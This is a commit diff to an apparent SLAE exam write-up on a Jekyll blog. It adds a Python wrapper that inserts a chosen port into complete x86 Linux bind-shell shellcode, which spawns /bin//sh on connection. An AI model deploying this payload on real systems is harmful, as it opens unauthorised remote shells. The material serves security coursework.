

Before and after one commit to smarinovic/smarinovic.github.io, a Jekyll site: the page built from _posts/2020-05-17-SLAE-exam-assessment-01.md, in a window 1280 px wide and 1400 px high, scrolled down 11565 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

Commit message:
added wrapper

````diff
--- a/_posts/2020-05-17-SLAE-exam-assessment-01.md
+++ b/_posts/2020-05-17-SLAE-exam-assessment-01.md
@@ -454,3 +454,32 @@
 gcc -fno-stack-protector -z execstack -m32 skeleton.c -o bind_shell
 
 ```
+
+Last task was to make port argument easily configurable. Suggested way is to create wrapper. To create wrapper, we need to find where port number is located. Port number is 4444 which is presented as hex (little endian format): \x11\x5c. When we know the location of port, we can split shell code in pre-port part and post-port part. Python script generates hex representation of given port number and combines all three parts (pre-port, port and post-port part of shell code) in new shell code.
+
+```
+import sys
+
+shell1 = "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xb2\\x06\\xcd\\x80\\x89\\xc7\\x31\\xc9\\x51\\x51\\x66\\x68"
+port =   "\\x11\\x5c"   # port is by default 4444
+shell2 = "\\x66\\x6a\\x02\\x89\\xe1\\x89\\xc3\\x66\\xb8\\x69\\x01\\xb2\\x16\\xcd\\x80\\x31\\xc0\\xb8\\x6b\\x01\\x00\\x00\\x89\\xfb\\xb1\\x02\\xcd\\x80\\x31\\xc0\\xb8\\x6c\\x01\\x00\\x00\\x89\\xfb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\xcd\\x80\\x31\\xff\\x89\\xc7\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xfe\\xc9\\xcd\\x80\\x75\\xf4\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"
+
+if len(sys.argv) != 2:
+   print 'Usage: wrapper.py <port>'
+   sys.exit(-1)
+
+else:
+   port_number = sys.argv[1]             # read port number sent as argument
+
+   try:
+      port_number = int(port_number)
+      port_number = hex(port_number)
+      port_num = port_number.replace("0x","")
+      port_num1 = port_num[:2]
+      port_num2 = port_num[2:]
+      print (shell1 + "\\x" + port_num1 + "\\x" + port_num2 + shell2)
+
+   except:
+      print ("Port must be number")
+
+```
````
